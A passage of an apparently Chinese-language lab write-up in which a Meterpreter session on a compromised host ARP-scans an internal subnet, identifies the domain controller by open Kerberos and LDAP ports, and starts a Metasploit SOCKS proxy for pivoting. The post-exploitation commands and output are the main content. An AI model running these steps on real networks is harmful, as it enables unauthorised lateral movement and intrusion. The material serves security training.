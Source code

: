

### ARP扫内网主机

```
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.52.0/24

[*] Running module against STU1
[*] ARP Scanning 192.168.52.0/24
[+]     IP: 192.168.52.138 MAC 00:0c:29:c1:33:d6 (VMware, Inc.)
[+]     IP: 192.168.52.143 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
[+]     IP: 192.168.52.141 MAC 00:0c:29:1c:44:8e (VMware, Inc.)
[+]     IP: 192.168.52.255 MAC 00:0c:29:bd:35:01 (VMware, Inc.)
```



暂时将handler隐藏到后台

```
meterpreter > background 
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > back
```



### 判断域控

法一：上传nbtscan，扫子网

![image-20220811204915927](./st1.assets/image-20220811204915927.png)

法二：nmap扫描出的主机端口开放情况判断，192.168.52.138这台主机开启了464端口和389端口

![image-20220811210453367](./st1.assets/image-20220811210453367.png)



### msf起代理 (nmap失败)

```
msf6 > use auxiliary/server/socks_proxy 
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
```